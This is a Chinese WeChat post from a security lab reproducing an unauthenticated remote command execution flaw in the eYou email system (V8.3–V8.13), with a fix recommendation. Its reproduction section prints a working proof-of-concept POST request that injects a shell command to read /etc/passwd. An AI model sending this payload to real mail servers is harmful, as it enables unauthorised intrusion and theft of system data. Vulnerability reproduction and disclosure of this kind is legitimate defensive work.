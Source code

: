 #  亿邮电子邮件系统远程命令执行漏洞

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#POC 63 个

#漏洞 103 个

#网络安全 92 个

#复现 75 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  

 **      本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**

![]()  
 **0x01漏洞介绍**

  

  

北京亿中邮信息技术有限公司（亿邮）是一款专业的邮件系统软件及整体解决方案提供商。亿邮电子邮件系统远程命令执行漏洞，攻击者利用该漏洞可在未授权的情况实现远程命令执行，获取目标服务器权限。

  

![]()  
 **0x02影响版本**  

亿邮电子邮件系统V8.3-V8.13

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

  **POC  （POST）**

漏洞复现

        POST请求，注入命令执行函数并进行base64编码

  *   *   *   *   *   *   *   *   * 

    
    
    POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1Host: 127.0.0.1Content-Length: 25Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36  
    type='|cat /etc/passwd||'

       执行成功

![]()

3.nuclei测试（漏洞存在）

![]()

  

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    http://www.eyou.net/

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

